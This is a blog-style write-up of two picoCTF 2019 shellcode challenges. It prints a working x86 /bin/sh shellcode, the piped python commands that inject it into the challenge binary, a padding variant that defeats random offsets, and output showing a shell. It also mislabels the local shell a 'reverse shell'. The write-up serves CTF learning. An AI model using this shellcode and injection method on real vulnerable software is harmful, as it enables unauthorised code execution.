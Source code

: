 ﻿---
date: 2019-10-25 23:48:05
layout: post
title:  "shellcode 1*2 - PicoCTF 2019"
subtitle: "Created by: Mrx-Exploit"
description: >- 
  Created by: Mrx-Exploit
tags: 
  - picoCTF 
  - pwn
image: >- 
  /assets/img/binary-exploitation/shellcode/banner.png
optimized_image: >- 
  /assets/img/binary-exploitation/shellcode/banner.png
category: blog
author: Hazem Hesham
paginate: true
---

# handy-shellcode

> Points: 50  
> Difficulty: easy  

This challenge looks easy so let's see what will happen  
After Downloading this challenge program we will use `chmod +x vuln` I think it's Basic knowledge  
Now let's run it  
```
root@kali:~/Desktop/picoctf# ./vuln
Enter your shellcode:
ls
ls
Thanks! Executing now...
Segmentation fault
```
It's Taking what any thing I type it and print it Hmmm  
Let's try to get reverse shellcode from [Shell-Code.org](http://shell-storm.org/shellcode/files/shellcode-606.php)  
So our Payload will be  
```
(python -c "print '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80'"; cat )| ./vuln  
```
Then you will get reverse shell it's easy to hack :D  

---

# slippery-shellcode

> Points: 200  
> Difficulty: easy  

This challenge looks like first one so let's try the same shellcode and see what will happen  
```
root@kali:~/Desktop/picoctf# (python -c "print '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80'"; cat )| ./vuln
Enter your shellcode:
1�Ph//shh/bin����°
                  1�@̀
Thanks! Executing from a random location now...
ls
Segmentation fault
```
Wait it's told me `from a random location` let's read the source code  
`int offset = (rand() % 256) + 1;`  
Hmm Let's see to give it bunsh of `A` in the first  
So our Payload will be  
```
(python -c "print 'A'*300+'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80'"; cat )| ./vuln
```  

Let's see what will happen  

```
root@kali:~/Desktop/picoctf# (python -c "print 'A'*300+'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80'"; cat )| ./vuln
Enter your shellcode:
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA1�Ph//shh/bin����°
  1�@̀
Thanks! Executing from a random location now...

ls
flag.txt  vuln
```
We got our shell again it's looks easy too

